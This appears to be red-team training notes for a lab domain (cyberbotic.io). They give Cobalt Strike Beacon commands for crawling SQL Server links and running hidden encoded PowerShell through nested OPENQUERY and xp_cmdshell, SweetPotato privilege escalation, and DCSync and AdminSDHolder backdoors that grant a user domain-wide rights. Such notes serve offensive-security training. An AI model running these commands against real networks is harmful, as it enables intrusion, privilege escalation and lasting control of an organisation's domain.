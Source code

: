 ###### <font style="color:#00b3ff">Manually querying databases to find links can be cumbersome and time-consuming, so you can also use Get-SQLServerLinkCrawl to automatically crawl all available links</font> 
```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"
```

###### <font style="color:#00b3ff">To execute a shell command on sql-1.cyberbotic.io</font> 
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
```

###### <font style="color:#00b3ff">And to execute a shell command on sql01.mydomain.local, we have to embed multiple OpenQuery statements (the single quotes get exponentially more silly the deeper you go)</font> 
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select * from openquery("sql01.mydomain.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```

###### <font style="color:#00b3ff">Impersonation, SweetPotato has a collection of these various techniques which can be executed via Beacon's execute-assembly command</font> 
```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Debug\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc SQBFAF[...snip...]ApAA=="

beacon> connect localhost 4444
```
---
###### <font style="color:#00b3ff">DCSync Backdoor</font> 
```
- Use dcsync:
	beacon> dcsync dev.cyberbotic.io DEV\krbtgt

- Add-DomainObjectAcl from PowerView can be used to add a new ACL to a domain object. If we have access to a domain admin account, we can grant dcsync rights to any principal in the domain (a user, group or even computer):

	beacon> powershell Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
```

###### <font style="color:#00b3ff">AdminSDHolder Backdoor</font> 
```
- Change DACL for AdminSDHolder (wait 60min for propagation):

	beacon> powershell Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights All

	beacon> run net group "Domain Admins" bfarmer /add /domain
```

